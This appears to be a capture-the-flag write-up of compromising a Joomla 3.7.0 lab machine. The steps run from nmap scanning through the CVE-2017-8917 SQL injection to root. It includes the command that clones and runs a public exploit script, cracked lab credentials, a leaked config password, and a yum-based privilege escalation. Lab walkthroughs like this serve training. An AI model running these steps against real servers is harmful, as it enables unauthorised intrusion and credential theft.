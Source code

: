 my IP = 10.10.35.114
victim IP = 10.10.118.65

# Namp scan

`nmap -A 10.10.118.65`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home


```

PORT 22 => SSH
PORT 80 => HTTP

`nmap -sV --script vuln 10.10.118.65`

```
| http-enum: 
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /robots.txt: Robots file
|   /language/en-GB/en-GB.xml: Joomla! 
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /bin/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /libraries/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder

| http-vuln-cve2017-8917: 
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute aribitrary SQL commands via unspecified vectors.
|       
|     Disclosure date: 2017-05-17
|     Extra information:
|       User: root@localhost
|     References:
|       https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917

3306/tcp open  mysql   MariaDB (unauthorized)
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)

```

# Exploit

So there is SQL Injection in Joomla 3.7.0.
To use it we use `git clone "https://github.com/stefanlucas/Exploit-Joomla.git"`

Run `python3 joomblah.py http://10.10.118.65/`

![[Pasted image 20231011094903.png]]

We have:

```
user: jonah
hashed password : $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

Retrive the passeord using `https://hashes.com/en/tools/hash_identifier`:

```
user: jonah
password : spiderman123
```

Let's start a gobuster search:

![[Pasted image 20231011095909.png]]

> We found the directory `/administrator`

Using the credentials to access in website: `http://10.10.118.65/administrator/`

![[Pasted image 20231011100007.png]]

Using `https://www.hackingarticles.in/joomla-reverse-shell/`

![[Pasted image 20231011100658.png]]

We got access.

Try to enumerate the machine using `linpeas.sh`

![[Pasted image 20231011101124.png]]

The results are:
```
[+] Searching passwords in config PHP files
	public $password = 'nv5uz9r3ZEDzVjNu';
```

Search for user in this machine:

![[Pasted image 20231011103444.png]]

There is jjamenson user. SSH it:

![[Pasted image 20231011103418.png]]

Try to privilege escalation --> use `sudo -l`

![[Pasted image 20231011103545.png]]

Search on https://gtfobins.github.io/gtfobins/yum/ and we have a root shell.

![[Pasted image 20231011103630.png]]




